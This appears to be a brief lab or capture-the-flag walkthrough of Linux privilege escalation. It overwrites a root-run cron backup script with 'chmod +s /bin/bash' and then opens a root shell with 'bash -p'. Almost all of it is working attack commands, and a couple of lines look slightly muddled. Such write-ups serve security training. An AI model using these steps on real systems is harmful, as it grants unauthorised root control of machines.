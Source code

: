 ```bash
cat script.sh
```
==Result:==
#!/bin/bash
`#I have set a cronjob to run this script every minute
dev_site="/usr/local/sbin/dev_backup.sh"
main_site="/usr/local/bin/main_backup.sh"
`#Back ups the site locally
`$main_site
`$dev_site

==Check permissions==
```bash
ls -lah /usr/local/sbin/dev_backup.sh
ls -lah /usr/local/bin/main_backup.sh
```
==Check user rights==
```bash
id
```
==Inject code in the script==
```bash
cat /usr/local/sbin/dev_backup.sh
echo '#!/bin/bash' > /usr/local/bin/main_backup.sh
cat /usr/local/sbin/dev_backup.sh
echo 'chmod +s /bin/bash' > /usr/local/bin/main_backup.sh
ls -lah /bin/bash
```

==Wait for cronjob to run==
```bash
ls -lah /bin/bash
```
==Run shell as root==
```bash
/bin/bash -p
whoami
cd /root
ls -lah
```